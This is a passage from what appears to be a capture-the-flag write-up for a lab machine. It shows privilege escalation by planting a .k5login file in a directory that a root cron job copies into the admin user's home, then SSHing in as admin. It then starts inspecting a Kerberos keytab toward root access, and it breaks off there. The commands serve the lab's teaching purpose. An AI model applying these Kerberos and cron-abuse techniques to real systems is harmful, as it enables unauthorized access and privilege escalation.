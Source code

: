 ```
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```

What the script basically does is copy the contents of the `/var/log/squid/` directory to `/home/admin`.

`log_backup.sh`
```bash
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

Since kerberos authentication for ssh is enabled on this machine, this means we can drop a .k5login in the `/var/log/squid/` directory, it get's copied to admin's home folder and we can ssh into the machine as him.

```
[j.nakazawa@srv01 ~]$ echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login
```

After some time we can log in as the admin user from our local machine. This might not work the first time, but should work tried repeatedly.

```
$ ssh admin@srv01.realcorp.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Wed Jun 16 08:28:01 2021
[admin@srv01 ~]$ 
```

## Keytab to root

Looking around we find the `/etc/krb5.keytab` file, that is owned by the admin group, which means we can modify it.

```
[admin@srv01 ~]$ ls -la /etc/krb5.keytab
-rw-r-----. 1 root admin 1403 Dec 19 06:10 /etc/krb5.keytab
```

```
[admin@srv01 ~]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
[admin@srv01 ~]$ 
```
